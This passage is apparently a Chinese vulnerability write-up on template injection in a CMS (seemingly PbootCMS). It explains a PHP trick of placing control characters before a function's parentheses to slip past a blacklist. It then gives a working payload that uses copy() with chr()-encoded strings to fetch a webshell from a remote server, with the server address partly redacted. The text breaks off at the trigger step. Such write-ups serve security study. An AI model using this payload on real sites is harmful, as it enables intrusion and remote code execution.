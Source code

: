 ![image](../img/7134f29cf2f418c21e18d59956e07e40.png)

看到后我才想起，以前就看过P师傅的一篇文章里面的一个trick：在一个函数的括号前面加入一些控制字符，PHP一样能识别改函数并执行。利用这个trick就可以执行任意函数了。

于是根据P师傅给的思路再结合程序本身的一些其他的黑名单限制，很快我就构造出了一个通用的Payload

```
{pboot%3aif(copy%01(chr%01(104).chr%01(116).chr%01(116).(马赛克),chr%01(49).chr%01(46).chr%01(112).chr%01(104).chr%01(112)))}asdasdasd{/pboot%3aif} 
```

利用一个`copy()`函数到远程服务器上下载一个webshell放在本地，这里的webshell地址通过`chr()`函数一个个还原出shell地址一个个拼接。

向模板注入该payload：

![image](../img/9aab389b45f5d1074732bf6047891f83.png)

访问前台触发点：
